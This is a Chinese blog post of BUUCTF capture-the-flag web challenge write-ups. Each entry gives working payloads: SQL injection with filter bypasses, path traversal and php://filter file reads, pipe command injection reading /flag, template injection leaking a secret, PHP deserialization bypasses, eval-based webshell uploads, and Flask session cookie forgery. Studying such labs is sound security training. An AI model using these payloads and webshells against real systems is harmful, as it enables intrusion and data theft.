<!--yml
category: 未分类
date: 2022-04-26 14:44:33
-->

# BUUCTF寒假刷题-Web_深海神奇舰舰长的博客-CSDN博客

> 来源：[https://blog.csdn.net/qq_44022113/article/details/114239631](https://blog.csdn.net/qq_44022113/article/details/114239631)

* * *

# 前言

寒假横向刷题（尽量）
[BUUCTF](https://buuoj.cn/challenges#)

💗🧡💛💚💙💜🤎🖤🤍
**题都写这一个里面了，可以先用`Ctrl`+`F`搜索，还有部分是草稿还没有整理，不过我认为的思路已经整理出来了，看不懂还请大伙见谅。有问题了很乐意效劳💨**

* * *

# 2021.01.15

# [HCTF 2018]WarmUp

进到靶机一个硕大的滑稽，查看源码有提示source.php



```
<?php
    highlight_file(__FILE__);
    class emmm
    {
        public static function checkFile(&$page)
        {
            $whitelist = ["source"=>"source.php","hint"=>"hint.php"];
            if (! isset($page) || !is_string($page)) {
                echo "you can't see it";
                return false;
            }

            if (in_array($page, $whitelist)) {
                return true;
            }

            $_page = mb_substr(
                $page,
                0,
                mb_strpos($page . '?', '?')
            );
            if (in_array($_page, $whitelist)) {
                return true;
            }

            $_page = urldecode($page);
            $_page = mb_substr(
                $_page,
                0,
                mb_strpos($_page . '?', '?')
            );
            if (in_array($_page, $whitelist)) {
                return true;
            }
            echo "you can't see it";
            return false;
        }
    }

    if (! empty($_REQUEST['file'])
        && is_string($_REQUEST['file'])
        && emmm::checkFile($_REQUEST['file'])
    ) {
        include $_REQUEST['file'];
        exit;
    } else {
        echo "<br>";
    }  
?> 
```

发现白名单有source.php和hint.php，先去查看一下hint.php

> flag not here, and flag in ffffllllaaaagggg

分析源码

*   判断`$_REQUEST['file']`对象为空且为字符串
*   执行emmm类中的**checkFile**方法判断是否在白名单（确保函数返回是true）
*   文件包含

checkFile函数中字符串截取判断是否在白名单（代码17-24和26-34）所以有两种绕过方法。

1.  第一种

```
file=hint.php?../../../../../ffffllllaaaagggg 
```

字符串截取将原字符串尾部加上`?`再截取第一个`?`之前的内容。所以需要在构造payload时问号前需要是白名单里的文件。问号之后，猜测flag位置在根目录下，所以使用尽可能多的`../`返回上级目录。

2.  第二种

```
hint.php%3F..%2F..%2F..%2F..%2F..%2Fffffllllaaaagggg 
```

将第一种payload使用urlencode编码即可。

* * *

# [强网杯 2019]随便注



根据题目尝试sql注入，单引号报错，单引号加注释无报错，说明存在sql注入，当测试输入select时返回过滤的黑名单：

```
return preg_match("/select|update|delete|drop|insert|where|\./i",$inject); 
```

这道题使用的是堆叠注入，原理

> 在SQL中，分号（;）是用来表示一条sql语句的结束。试想一下我们在 ; 结束一个sql语句后继续构造下一条语句，会不会一起执行？因此这个想法也就造就了堆叠注入。而union injection（联合注入）也是将两条语句合并在一起，两者之间有什么区别么？区别就在于union 或者union all执行的语句类型是有限的，可以用来执行查询语句，而堆叠注入可以执行的是任意的语句。例如以下这个例子。用户输入：1; DELETE FROM products服务器端生成的sql语句为：（因未对输入的参数进行过滤）Select * from products where productid=1;DELETE FROM products当执行查询后，第一条显示查询信息，第二条则将整个表进行删除。

查看数据库

```
1';show databases; 
```



查看当前库下的表

```
1';show tables; 
```



查看两张表字段

```
1';show columns from words; 
```



还有一种查看表的语句，在windows系统下，反单引号（`）是数据库、表、索引、列和别名用的引用符

```
1';desc `1919810931114514`; 
```



找到了flag在的字段，接下来就是如何获取该字段的值。顺带一提，根据表的结构，初步判断默认查询的是**word**表中的字段，而flag在**1919810931114514**表中。

网上找到的两种方法，分别是修改表名和使用预处理语句。

1.  使用[预处理](https://www.cnblogs.com/geaozhang/p/9891338.html)语句

因为select被过滤了，但是可以使用char函数，char() 函数将select的ASCII码转换为select字符串，接着利用concat()函数进行拼接得到select查询语句，从而绕过过滤。或者直接用concat()函数拼接select来绕过。

```
char(115,101,108,101,99,116) 
```

根据预处理语句格式构造payload

*   创建一个**sqli**字符串值为查询sql语句，使用预处理语句赋值并执行。

```
1';SET @sqli=concat(char(115,101,108,101,99,116),'* from `1919810931114514`');PREPARE hacker from @sqli;EXECUTE hacker;# 
```

```
1';PREPARE sqli FROM CONCAT('s','elect',' * from `1919810931114514`');EXECUTE sqli; # 
```

```
1';SET @sqli = CONCAT('s','e','l','e','c','t',' * from `1919810931114514`');PREPARE haha FROM@sqli ;EXECUTE haha; # 
```

主要区别在于过滤的绕过方式，不要拘泥于一种方式。

2.  修改表名

修改表名的思路是：默认查询的是**word**表第一个字段，所以把**word**表修改为其他名称，将flag所在的**1919810931114514**表名修改为**word**。

网上payload

```
0';rename table words to words1;rename table `1919810931114514` to words;alter table words change flag id varchar(100) CHARACTER SET utf8 COLLATE utf8_general_ci NOT NULL;desc  words;# 
```

自己构造的payload

```
0';rename table words to words1;rename table `1919810931114514` to words;alter table words change flag id varchar(100) # 
```

之后执行

```
1' or 1=1 # 
```

查询表所有字段值即可。

* * *

# [极客大挑战 2019]EasySQL


用户名密码，尝试万能密码。

```
'or 1=1 #
随便密码 
```

一个万能密码的参考:https://www.cnblogs.com/pass-A/p/11134988.html

* * *

# [极客大挑战 2019]Havefun



直接源码找到php代码。payload

```
?cat=dog 
```

* * *

# [SUCTF 2019]EasySQL



单引号无报错，尝试堆叠注入可以回显。

和 [强网杯 2019]随便注这道题一样查库查表查字段

```
1;show databases;
1;show tables; 
```

但是执行

```
1;desc `Flag`;
1;show columns from Flag; 
```

返回了"Nonono.“测试出被过滤了：desc、from、Flag。

接下来的都是抄网上的预期解也是第一次见。

比赛时源码泄露

```
select $_GET['query'] || flag from flag 
```

> 在oracle 缺省支持 通过 ‘ || ’ 来实现字符串拼接，但在mysql 缺省不支持。需要调整mysql 的sql_mode
> 模式：pipes_as_concat 来实现oracle 的一些功能

payload

```
1;set sql_mode=PIPES_AS_CONCAT;select 1 
```

非预期解

```
*,1 
```

* * *

# [ACTF2020 新生赛]Include

不截图了，进入靶机只有一个**tips**等着被点。跳转以后看url中参数

```
?file=flag.php 
```

页面内容只有

> Can you find out the flag?

立马想到使用php伪协议读文件内容。使用filter过滤器

```
?file=php://filter/convert.base64-encode/resource=flag.php 
```

得到

```
PD9waHAKZWNobyAiQ2FuIHlvdSBmaW5kIG91dCB0aGUgZmxhZz8iOwovL2ZsYWd7OTAyNTIyNDgtMjY3NC00NDdjLWFlYWMtYjc3ZTc5YjYwMzVmfQo= 
```

解密得到flag

* * *

# [极客大挑战 2019]Secret File



查看源码，又一个背景是黑色的超链接跳转到 Archive_room.php。



查看源码SECRET跳转的是action.php。



但是跳转以后是url地址为end.php，所以中间跳过了一个页面，使用bp抓包查看。



stristr()函数返回字符串中子串第一次出现位置之后的内容，简而言之还是过滤。

同样使用php伪协议filter过滤器读取文件

```
?file=php://filter/convert.base64-encode/resource=flag.php 
```

```
PCFET0NUWVBFIGh0bWw+Cgo8aHRtbD4KCiAgICA8aGVhZD4KICAgICAgICA8bWV0YSBjaGFyc2V0PSJ1dGYtOCI+CiAgICAgICAgPHRpdGxlPkZMQUc8L3RpdGxlPgogICAgPC9oZWFkPgoKICAgIDxib2R5IHN0eWxlPSJiYWNrZ3JvdW5kLWNvbG9yOmJsYWNrOyI+PGJyPjxicj48YnI+PGJyPjxicj48YnI+CiAgICAgICAgCiAgICAgICAgPGgxIHN0eWxlPSJmb250LWZhbWlseTp2ZXJkYW5hO2NvbG9yOnJlZDt0ZXh0LWFsaWduOmNlbnRlcjsiPuWViuWTiO+8geS9oOaJvuWIsOaIkeS6hu+8geWPr+aYr+S9oOeci+S4jeWIsOaIkVFBUX5+fjwvaDE+PGJyPjxicj48YnI+CiAgICAgICAgCiAgICAgICAgPHAgc3R5bGU9ImZvbnQtZmFtaWx5OmFyaWFsO2NvbG9yOnJlZDtmb250LXNpemU6MjBweDt0ZXh0LWFsaWduOmNlbnRlcjsiPgogICAgICAgICAgICA8P3BocAogICAgICAgICAgICAgICAgZWNobyAi5oiR5bCx5Zyo6L+Z6YeMIjsKICAgICAgICAgICAgICAgICRmbGFnID0gJ2ZsYWd7ZmZjZTAwNWYtYjEyOS00YWM1LTg3MzYtZDM3YzUwYjYxNjZkfSc7CiAgICAgICAgICAgICAgICAkc2VjcmV0ID0gJ2ppQW5nX0x1eXVhbl93NG50c19hX2cxcklmcmkzbmQnCiAgICAgICAgICAgID8+CiAgICAgICAgPC9wPgogICAgPC9ib2R5PgoKPC9odG1sPgo= 
```

解密得到网页源码，flag在其中。

* * *

# [极客大挑战 2019]LoveSQL

顶端の告诫：用 sqlmap 是没有灵魂的



尝试万能密码（其实没卵用）

```
'or 1=1 #
任意密码 
```

这道题是常规的sql注入，测注入点、查字段数、爆库、爆字段值、爆表。组合拳

字段数：

```
1' order by 3 # 
```

爆库：

```
1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database() #

geekuser,l0ve1ysq1 
```

爆字段值：

```
1' union select 1,2,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='l0ve1ysq1' #

id,username,password 
```

爆表：

```
1' union select 1,2,group_concat(id,username,password) from l0ve1ysq1 #

'1cl4ywo_tai_nan_le,2glzjinglzjin_wants_a_girlfriend,3Z4cHAr7zCrbiao_ge_dddd_hm,40xC4m3llinux_chuang_shi_ren,5Ayraina_rua_rain,6Akkoyan_shi_fu_de_mao_bo_he,7fouc5cl4y,8fouc5di_2_kuai_fu_ji,9fouc5di_3_kuai_fu_ji,10fouc5di_4_kuai_fu_ji,11fouc5di_5_kuai_fu_ji,12fouc5di_6_kuai_fu_ji,13fouc5di_7_kuai_fu_ji,14fouc5di_8_kuai_fu_ji,15leixiaoSyc_san_da_hacker,16flagflag{c4e8849c-e0e3-4e0d-b701-26a5abeec46a}' 
```

* * *

# 2021.01.21

# [GXYCTF2019]Ping Ping Ping

[传送门](https://braindance.tk/2020/%5BGXYCTF2019%5DPing%20Ping%20Ping/)

* * *

# [ACTF2020 新生赛]Exec



肯定是尝试管道符

```
127.0.0.1|cat /flag 
```

* * *

# [护网杯 2018]easy_tornado

打开页面三个超链接

> /flag.txt
> 
> /welcome.txt
> 
> hints.txt

内容分别是

> flag in /fllllllllllllag
> 
> render
> 
> md5(cookie_secret+md5(filename))

进入hints.txt注意到url地址此时为

```
/file?filename=/hints.txt&filehash=2a84a09bc1d5e3d8745131754ff208fa 
```

再根据hints.txt文件的内容，推断可以使用url方式访问文件，但是需要提供**filehash**值，加密的方法即hints.txt的内容：md5(cookie_secret+md5(filename))。flag文件的名称`filename`有了，接下来就是获取`cookie_secret`的值。

接下来触及到盲区了，获取cookie_secret是看wp。

> render是python中的一个渲染函数，也就是一种模板，通过调用的参数不同，生成不同的网页 render配合Tornado使用

> 在tornado模板中，存在一些可以访问的快速对象,这里用到的是handler.settings，handler 指向RequestHandler，而RequestHandler.settings又指向self.application.settings，所以handler.settings就指向RequestHandler.application.settings了，这里面就是我们的一些环境变量

获取cookie_secret的payload

```
/error?msg={{handler.settings}} 
```



获得cookie_secret的值为

```
eb326d39-cd67-47bd-b2d3-71125996417b 
```

根据hints.txt的url验证一下是如何加密的。



选中的蓝色部分是`/hints.txt`加密后的md5值。推断出filehash格式以后直接访问flag文件，payload：

```
/file?filename=/hints.txt&filehash=2a84a09bc1d5e3d8745131754ff208fa 
```

* * *

# [极客大挑战 2019]Knife



一句话直接连。

* * *

# [RoarCTF 2019]Easy Calc



一个计算器随便试一试，当输入字母时会报错。查看网页源码，在script中发现了运行计算器的php文件：**calc.php**，但是也有一句很重要的注释

```
<!--I've set up WAF to ensure security.--> 
```



php的正则表达式中并没有过滤字母的条件，所以我们输入字母被过滤是因为**WAF**，接下来是参考网上的wp自己的理解

可以在calc.php传参

```
? num=a 
```

php会输出一个值a，说明已经绕过了WAF。这里使用的是WAF和php解析方法不一样，WAF解析到空格’ '会直接过滤掉，这样WAF认为传入的就是一个空值，并不会识别num，但是php解析的时候会把空格去掉，这样就能get到num的值。

接下来绕过正则就可以使用char()的方式使用ascii码转。空格被过滤但是想使用php输出可以使用var_dump()

查看根目录下文件，可以使用scandir（）遍历文件夹，其中char（47）------> ‘/’ ：

```
? num=1;var_dump(scandir(chr(47))) 
```

找到了疑似flag文件：f1agg，使用file_get_contents（）读取文件

```
?%20num=1;var_dump(file_get_contents(chr(47).chr(102).chr(49).chr(97).chr(103).chr(103))) 
```

* * *

# [极客大挑战 2019]Http


查看源码在"氛围"这两个字上有隐藏的跳转Secret.php。进入以后页面显示

```
It doesn't come from 'https://www.Sycsecret.com' 
```

提示页面不是来自这个网址，所以在HackBar上加上Referer。之后又提示

```
Please use "Syclover" browser 
```

加上User-Agent。提示

```
No!!! you can only read this locally!!! 
```

加上X-Forwarded-For。[HTTP X-Forwarded-For 介绍](https://www.runoob.com/w3cnote/http-x-forwarded-for.html)

最终的请求头：

```
GET /Secret.php HTTP/1.1
Host: node3.buuoj.cn:26715
Upgrade-Insecure-Requests: 1
User-Agent: Syclover
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
x-forwarded-for: 127.0.0.1
referer: https://www.Sycsecret.com
Connection: close 
```

* * *

# [极客大挑战 2019]PHP


源码备份在`www.zip`中。下载以后有五个文件

> class.php
> 
> flag.php
> 
> index.js
> 
> index.php
> 
> style.css

在index.php中有一段代码

```
<?php
    include 'class.php';
    $select = $_GET['select'];
    $res=unserialize(@$select);
    ?> 
```

再结合又一个class.php，所以这道题考点应该是反序列化。

class.php

```
<?php
include 'flag.php';

error_reporting(0);

class Name{
    private $username = 'nonono';
    private $password = 'yesyes';

    public function __construct($username,$password){
        $this->username = $username;
        $this->password = $password;
    }

    function __wakeup(){
        $this->username = 'guest';
    }

    function __destruct(){
        if ($this->password != 100) {
            echo "</br>NO!!!hacker!!!</br>";
            echo "You name is: ";
            echo $this->username;echo "</br>";
            echo "You password is: ";
            echo $this->password;echo "</br>";
            die();
        }
        if ($this->username === 'admin') {
            global $flag;
            echo $flag;
        }else{
            echo "</br>hello my friend~~</br>sorry i can't give you the flag!";
            die();

        }
    }
}
?> 
```

获取flag的代码位置是30-32行。分析这个Name对象，创建对象时可以为对象赋值，对象销毁时会判断password值是否是100，且username值是否为admin，如果两者都成立输出flag，但是__wakeup（）会在反序列化时调用将username值置为guest，所以需要反序列化逃逸。

我使用的构造对象

```
<?php
class Name{
    private $username ='admin';
    private $password ='100';
}

$a = new Name;
echo serialize($a);

O:4:"Name":2:{s:14:"%00Name%00username";s:5:"admin";s:14:"%00Name%00password";s:3:"100";} 
```

反序列化逃逸，使对象属性的数量大于原来的值，就可以绕过wakeup函数。最终payload

```
?select=O:4:"Name":3:{s:14:"%00Name%00username";s:5:"admin";s:14:"%00Name%00password";s:3:"100";} 
```

* * *

# [极客大挑战 2019]Upload


先尝试上传一个gif图片马内容为

```
GIF89a
<?php
@eval($_POST['a']); 
```

页面提示过滤：

> NO! HACKER! your file included ‘<?’

尝试script执行php代码

```
<script language="php">eval($_POST['cmd'])</script> 
```

可以上传，文件在/upload目录下。尝试修改后缀上传，phtml上传成功，可以执行php和script代码，使用蚁剑连接。



* * *

# 2021.01.28

# [极客大挑战 2019]BabySQL


尝试万能密码，发现报错了：1=1#’ and password=‘123’，也许是or被过滤了或者删掉了，尝试大小写无果，但是尝试双写通过了。需要注意的是爆表，爆数据库的语句中有**information**这个词，其中的**for**也会被过滤。其他过滤的词我遇到的有：union，select、from、where、and。

爆数据库（填密码）：

```
1' uniunionon selselectect 1,2,group_concat(table_name) frfromom infoorrmation_schema.tables whwhereere table_schema=database() # 
```

爆表：

```
1' uniunionon selselectect 1,2,group_concat(column_name) frfromom infoorrmation_schema.columns whwhereere table_schema=database() aandnd table_name='b4bsql' # 
```

爆字段值：

```
1' uniunionon selselectect 1,2,group_concat(id,username,passwoorrd) ffromrom b4bsql # 
```

* * *

# [ACTF2020 新生赛]Upload


指针放在灯泡上护显示上传文件的，图片马

233.gif

```
GIF89a
<?php
@eval($_POST['a']); 
```

尝试phtml是否被过滤，直接上传成功。蚁剑连接

```
------WebKitFormBoundaryUMSByAQmR2cduL6R
Content-Disposition: form-data; name="upload_file"; filename="233.phtml"
Content-Type: image/gif

GIF89a
<?php
@eval($_POST['a']);
------WebKitFormBoundaryUMSByAQmR2cduL6R
Content-Disposition: form-data; name="submit"

upload
------WebKitFormBoundaryUMSByAQmR2cduL6R-- 
```

* * *

# [ACTF2020 新生赛]BackupFile

```
Try to find out source file! 
```

题目提示备份文件，备份文件常见后缀：

> .git .svn .swp .~ .bak .bash_history

尝试index.php.bak，下载了一个备份文件：

```
<?php
include_once "flag.php";

if(isset($_GET['key'])) {
    $key = $_GET['key'];
    if(!is_numeric($key)) {
        exit("Just num!");
    }
    $key = intval($key);
    $str = "123ffwsfwefwf24r2f32ir23jrw923rskfjwtsw54w3";
    if($key == $str) {
        echo $flag;
    }
}
else {
    echo "Try to find out source file!";
} 
```

传一个必须为数字的参数key，使用intval（）函数处理，字符串相等则输出flag。这就想到了PHP中的`==`和`===`的区别。贴一段简单代码

```
<?php
$str = 'abc';
if(0==$str){
	echo "真";
}else{
	echo "假";
} 
```

`==`在执行关系运算时，要求运算符两边的数据类型必须一致，所以等号右边的字符串被强制转换为了整型，若有一方为数字，另一方为字符串或空或null，均会先将非数字一方转化为0，再做比较。如果字符串是以数字开头的，就会截取直到遇到第一个字母。

全等于`===`操作过程如下：

1.  操作符两边的数据类型如果不相同，返回false 。
2.  操作符两边的值如果不相同，返回false 。
3.  最后将上面2步的操作进行与操作。返回与操作的结果。

所以最终的payload：

```
?key=123 
```

* * *

# [HCTF 2018]admin



可以在注释里找到

思路应该是只要我们是admin登陆就可以得到flag，可以找到注册按钮，不能注册admin,那就随便注册一个进去看看。找到几个功能。

*   post。发表文章，但是没能找到在哪里打开
*   change password。改密码，尝试下能不能抓包改到admin的密码

修改密码抓到的包：



感觉并没有什么下手的地方，唯一的就是session可能和身份有关。

以下的是看网上的wp

在change password页面查看源码，发现提供了题目的源码地址

网站使用的是flask框架，具体路由表如下

```
@app.route('/code')		
def get_code():

@app.route('/index')		
def index():

@app.route('/register', methods = ['GET', 'POST'])		
def register():

@app.route('/login', methods = ['GET', 'POST'])		
def login():

@app.route('/logout')		
def logout():

@app.route('/change', methods = ['GET', 'POST'])		
def change():

@app.route('/edit', methods = ['GET', 'POST'])		
def edit(): 
```

## 解法一：flask session伪造

这个解法和前面查看请求头时发现的session有关，flask框架是通过session来判断登录的用户身份，但是这个session是通过一些字符串拼接后加密的，所以如果我们可以知道字符串和加密算法，就可以实现伪造session。

贴两篇相关文章：

[Python Web之flask session&格式化字符串漏洞](https://xz.aliyun.com/t/3569)

[客户端 session 导致的安全问题](https://www.leavesongs.com/PENETRATION/client-session-security.html#)

首先需要注册一个账号登陆上去，看看请求头Cookie里的session值。

说明一下flask的session值加密格式是：`SECRET_KEY` +`一个用户对象的字符串`(就像PHP里的序列化后)。`SECRET_KEY`的值我们可以在源码里找到：https://github.com/woadsl1234/hctf_flask/blob/master/app/config.py中的第四行

```
SECRET_KEY = os.environ.get('SECRET_KEY') or 'ckj123' 
```

可以得知`SECRET_KEY`值为`ckj123`。然后在index.html页面发现只要session[‘name’] == 'admin’即可以得到flag。接下来就要使用到一个解密工具，需要解密出用户字符串的格式，再将用户名改为admin，加密后再去请求，我们就可以以admin的身份登陆了。

如下 [**P师傅**](https://www.leavesongs.com/) 的程序解密：

```
 import sys
import zlib
from base64 import b64decode
from flask.sessions import session_json_serializer
from itsdangerous import base64_decode

def decryption(payload):
    payload, sig = payload.rsplit(b'.', 1)
    payload, timestamp = payload.rsplit(b'.', 1)

    decompress = False
    if payload.startswith(b'.'):
        payload = payload[1:]
        decompress = True

    try:
        payload = base64_decode(payload)
    except Exception as e:
        raise Exception('Could not base64 decode the payload because of '
                         'an exception')

    if decompress:
        try:
            payload = zlib.decompress(payload)
        except Exception as e:
            raise Exception('Could not zlib decompress the payload before '
                             'decoding the payload')

    return session_json_serializer.loads(payload)

if __name__ == '__main__':
    print(decryption(sys.argv[1].encode())) 
```

执行命令

```
python run.py .eJw90MGKwkAMBuBXWXL2YLvuRfAgjBaFpFRGh8lFdK1tpxOFqmwd8d131gVvIX_4SPKA7bErLzWMr92tHMC2OcD4AR97GIPVOKIU-zzDgI4bDAeP2cZhWAcSO0SzcpiuhM26R1OMYi8h4faVSZGyniYYqk8y7FgdmlzFOV1LrufCat6gxpSikRu8WzMLrNqE1CJFXYzYRMmwZ-HahmXNGTkKi7sNbUpq6aP_xcpLrthbZyfwHMD3pTtur-e2PL1PyP_IUAWKS1uZ9Si2JzP3nLGg4NA6TMjYH9bexbonXXsuJi-ukV1VvqVi4xer6X9y2kkMoLqd97tTBQO4Xcru9TlIhvD8BSJwb7A.YELi9g.D_opOsSTFKn3wKeMF1rcGksx5HA 
```

结果

```
{'_fresh': True, '_id': b'a387c18c326b37e0ec3536f41dc3dfee11d86f56fd6f42d6e053875fcd7b85118f91fd1b1365dc9c2aa3d95426148ecfefeffac2adcc722c9642e2d9d9f86eb6', 'csrf_token': b'895783633ba12f15aedff2c4b355f0e9cb3158ee', 'image': b'AYHD', 'name': 'guobang', 'user_id': '10'} 
```

然后我们需要吧`name`的值修改为`admin`。修改完成以后还需要回到原来的session格式，那么就需要用到一个加密flask的工具：[flask-session-cookie-manager](https://github.com/noraj/flask-session-cookie-manager)

> 这个工具也可以用来解密。我整理的使用方法如下，记得要用双引号`""`括起来
> 
> python flask_session_cookie_manager{2,3}.py {encode,decode}
> 
> -s “SECRET_KEY” 都需要使用
> -c “Session cookie value” session的值 只有解密decode用得到
> -t “Session cookie structure” cookie结构 只有encode用得

执行

```
python flask_session_cookie_manager3.py encode -s "ckj123" -t "{'_fresh': True, '_id': b'a387c18c326b37e0ec3536f41dc3dfee11d86f56fd6f42d6e053875fcd7b85118f91fd1b1365dc9c2aa3d95426148ecfefeffac2adcc722c9642e2d9d9f86eb6', 'csrf_token': b'895783633ba12f15aedff2c4b355f0e9cb3158ee', 'image': b'AYHD', 'name': 'admin', 'user_id': '10'}" 
```

得到

```
.eJw90MGKwkAMBuBXWXL2YLvdi-BBGC0KSamMDpOLuNtqO524UJWtI777zrrgLeQPH0nusDv09bmByaW_1iPYtRVM7vD2CROwGjNKcShyDOi4xVB5zLcOwyaQ2DGatcN0LWw2A5oyi72EhLtnJmXKepZgOL6TYceqagsV53QjhV4Iq0WLGlOKRmHwZs08sOoSUssUdZmxiZJhz8KNDauGc3IUljcbupTUykf_g5WXQrG3zk7hMYKvc3_YXb67-vQ6ofgjwzFQXNrKfECxA5mF55wFBcfWYULG_rD2LtYD6cZzOX1yreyP9Usqt365nv0np73EAPaVtCcYwfVc98-_QTKGxy8-U27W.YELpfA.vD1SVCAxOcwOPXc_DbwFqJT1TRg 
```

放在请求头中，格式为

```
cookie: session=加密内容 
```



## 解法二：Unicode欺骗

第二种方法是利用代码中的strlower()函数的使用不当。这个函数分别在注册、登陆、修改密码的地方出现三次。这个方法的思路就是unicode加密三层，在最后一层修改密码时执行函数strlower()后修改到admin的密码。过程为

> ᴬᴰᴹᴵᴺ------注册后------>ADMIN—修改密码—>admin

payload

```
ᴬᴰᴹᴵᴺ 
```

注册以后使用`ᴬᴰᴹᴵᴺ`登陆，然后修改密码时实际修改的就是admin的密码了，然后登陆admin即可。

* * *

# [极客大挑战 2019]BuyFlag

网站题直接去看源码，在源码也搜索php有两个：index.php、pay.php。前者是首页，直接看后面的那个，打开就有提示

> Only Cuit’s students can buy the FLAG

应该还是一道http的套娃题。查看网页的请求发现Cookie中有一个user=0，很可疑，改成user=1，有了下一个提示：输入密码，并且源码中有一段php

```
<!--
	~~~post money and password~~~
if (isset($_POST['password'])) {
	$password = $_POST['password'];
	if (is_numeric($password)) {
		echo "password can't be number</br>";
	}elseif ($password == 404) {
		echo "Password Right!</br>";
	}
} 
```

还记得php`==`关系运算会强制转换类型，用POST传一个password=404a，`404a`会被强制转换为`404`，密码就对上了。接下来是钱的问题，flag需要**100000000**块钱我们也去要传过去。如果直接传入这么长的会提示字符串过长，所以我想到了科学计数法，`10e10`，就是10的10次方，通过。最终的请求：

```
POST /pay.php HTTP/1.1
Host: 268f365e-648d-477c-ba25-0c56572cc31f.node3.buuoj.cn
Content-Length: 25
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://268f365e-648d-477c-ba25-0c56572cc31f.node3.buuoj.cn
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.104 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://268f365e-648d-477c-ba25-0c56572cc31f.node3.buuoj.cn/pay.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: user=1
Connection: close

password=404a&money=10e10 
```

* * *

# [SUCTF 2019]CheckIn



知识点

> .user.ini。它比.htaccess用的更广，不管是nginx/apache/IIS，只要是以fastcgi运行的php都可以用这个方法。可谓很广，不像.htaccess有局限性，只能是apache.

准备好.user.ini文件内容为自动包含图片马，因为上传会检查文件头，所以添加了一个GIF文件头伪装：

```
GIF89a
auto_prepend_file=233.gif 
```

接下来上传图片马，尝试了正常上传PHP马会提示：

> <? in contents!

所以使用script马执行php：

```
GIF89a
<script language="php">eval($_REQUEST[shell])</script> 
```

上传成功后会提示文件路径：

> Your dir uploads/852aff287f54bca0ed7757a702913e50
> Your files :
> array(5) { [0]=> string(1) “.” [1]=> string(2) “…” [2]=> string(9) “.user.ini” [3]=> string(7) “233.gif” [4]=> string(9) “index.php” }

这时候.user.ini文件已经会帮我们自动包含图片马了，所以我们只需要访问一个PHP文件即可，正好上传目录下又一个index.php文件，可以直接蚁剑连接或者cat flag。

* * *

# [BJDCTF2020]Easy MD5


参考：

> [【Jarvis OJ】Login–password=’".md5($pass,true)."]('%20rel=)
> 
> [sql注入：md5($password,true)](https://blog.csdn.net/March97/article/details/81222922)
> 
> [Leet More 2010 Oh Those Admins! writeup](http://mslc.ctf.su/wp/leet-more-2010-oh-those-admins-writeup/)

随便输入一些东西都没有反应，在请求头中发现了一个Hint：

> select * from ‘admin’ where password=md5($pass,true)

**语法**

**md5(string,raw)**

| 参数 | 描述 |
| --- | --- |
| string | 必需。要计算的字符串。 |
| raw | 可选。默认不写为FALSE。32位16进制的字符串TRUE。16位原始二进制格式的字符串 |

概括理解，这里如果raw参数为`true`的话，这个函数的返回值是`string`的md5加密值进行十六进制解码的字符串。这道题我当时是直接看了源码跳过了第一层，第一层的答案其实是`ffifdyop`，我们来对它进行一波操作

最后那几个应该是不可见字符，重要的是前面一段：`'or'6`，这里还要说明一下，这提示应该不算严谨，真正的sql语句应该是在md5函数前后各一个`'`单引号。执行以后真正的sql语句为

```
select * from 'admin' where password=''or'6É].é!r,ùíb.‘ 
```

可以看到原理是构成一个闭合，这里还有第二个知识点，是or后面的字符串被认为是true，引用文章里的一段：

> a string starting with a `1` is cast as an integer when used as a boolean.
> 
> 在mysql里面，在用作布尔型判断时，以1开头的字符串会被当做整型数。要注意的是这种情况是必须要有单引号括起来的，比如password=‘xxx’ or ‘1xxxxxxxxx’，那么就相当于password=‘xxx’ or 1 ，也就相当于password=‘xxx’ or true，所以返回值就是true。当然在我后来测试中发现，不只是1开头，只要是数字开头都是可以的。

自己进行的测试：





所以真正的解法是只要sql语句的格式为password=‘xxxxxxxx’ or ‘1xxxx’，即hex包含字符串"276f722731"（'or’1），其实or后面开头只要是数字即可，1-9的hex范围为31-39。

下面这个程序是这道题开头参考列表中的第三个链接。

```
<?php 
for ($i = 0;;) { 
 for ($c = 0; $c < 1000000; $c++, $i++)
  if (stripos(md5($i, true), '\'or\'') !== false)
   echo "\nmd5($i) = " . md5($i, true) . "\n";
 echo ".";
}
?> 
```

这个程序遍历数字进行md5加密，使用stripos匹配是否有`'or'`，这个函数有一个弊病就是如果是以`'or'`开头的不会匹配到，并且我们需要的是or后面以数字开头都可以，所以需要稍微做一些修改，使用正则表达式由`\'or\'`改为`'or'([1-9]+|0+[1-9])` 不过我的方法自己还没跑出来🤣，回头加个多线程试一试

（更新）

自己写了一个python程序，放在学生服务器上跑了一个下午加一个晚上，出了两个答案，好家伙从1跑到52亿：



> *   找到了md5(2413633098): ÍD&ÞÅ’or’5ëÚKL
>     
>     
> *   找到了md5(5207660362): @;-V’or’2¦9D
>     
>     
> *   找到了md5(8351555222): ñuñ’or’9§^Vô
>     
>     
> *   找到了md5(13095770027): Y1©wfI’Or’4r
>     
>     
> *   找到了md5(14860117901): ú°0Àù}d’or’7ïV
>     
>     
> *   找到了md5(15724086109): wþ’OR’2GC;ºéSº
>     
>     
> *   找到了md5(16529176061): 'OR’1q1uMp$±7
>     
>     
> *   找到了md5(17428338265): !Ýæ ö’or’7z
>     
>     
> *   找到了md5(18717303578):ðË0¦Øè©’Or’7T
>     
>     
> *   找到了md5(19342380396): IìJ’Mð’OR’5"
>     
>     
> *   找到了md5(23960028257): J¶ÞÄÉXc’or’9L¸.­
>     
>     
> *   找到了md5(32561902614): ^¡Ü·Ý’Or’2¢#Þ
>     
>     
> *   找到了md5(38983153698): 'OR’9ldo«-3ÐÐå
>     
>     
> *   找到了md5(39742292223): d:ÙÊÑv%´’OR’3Ï
>     
>     
> *   找到了md5(44120894060): ¸åæ¿k«'Or’6ãª;
>     
>     
> *   找到了md5(44820604888): fG¬È’Or’5/Np<³K
>     
>     
> *   找到了md5(45570673322): +D|~ßÌK’or’3[
>     
>     
> *   找到了md5(45855250502): mh¦«XaÔ’Or’8ö
>     
>     
